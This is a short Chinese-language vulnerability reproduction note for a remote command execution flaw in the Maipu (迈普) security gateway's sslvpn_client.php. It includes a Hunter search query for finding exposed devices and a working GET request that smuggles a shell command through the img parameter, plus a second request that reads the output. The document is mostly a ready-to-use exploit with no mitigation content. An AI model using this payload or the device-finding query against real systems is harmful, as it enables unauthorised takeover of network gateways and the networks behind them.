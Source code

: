 # 迈普安全网关sslvpn_client存在远程命令执行漏洞

# 一、漏洞简介
迈普安全网关sslvpn_client存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 迈普安全网关

# 三、资产测绘
+ hunter`app.name=="MAIPU 迈普 MPSec"`
+ 特征![1701762281066-80c83a70-903d-4273-a66a-5df08ae34227.png](./img/nYJI0-JcxcVBhRa7/1701762281066-80c83a70-903d-4273-a66a-5df08ae34227-374241.png)

# 四、漏洞复现
```java
GET /sslvpn/sslvpn_client.php?client=logoImg&img=x%20/tmp|echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/ceshi.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e.png](./img/nYJI0-JcxcVBhRa7/1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e-132060.png)

获取命令执行结果

```java
GET /sslvpn/ceshi.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762342384-224cbced-19ed-428d-b26d-9957865251d2.png](./img/nYJI0-JcxcVBhRa7/1701762342384-224cbced-19ed-428d-b26d-9957865251d2-844096.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gkyi7fg6n1r30x4f>